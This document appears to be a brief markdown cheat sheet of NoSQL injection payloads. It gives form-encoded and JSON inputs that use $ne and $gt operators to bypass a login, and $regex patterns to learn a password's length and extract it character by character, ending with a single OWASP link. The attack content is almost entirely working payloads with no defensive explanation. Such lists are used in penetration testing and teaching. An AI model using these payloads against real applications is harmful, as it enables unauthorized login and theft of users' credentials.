 # NoSQL injection

## Login Bypass

```json
username=hermes&password[$ne]=hermes
username=hermes&password[%24ne]=

{"username": {"$eq": "hermes"}, "password": {"$ne": "hermes"}}
{"username": {"$eq": "hermes"}, "password": {"$gt": ""}}
```

## Extract length

```json
username=hermes&password[$regex]=.{6}
```

## Extract password

```json
username=hermes&password[$regex]=her.{3}

{"username": {"$eq": "hermes"}, "password": {"$regex": "^her" }}
```

# References

- [NoSQL injection - OWASP](https://www.owasp.org/images/e/ed/GOD16-NOSQL.pdf)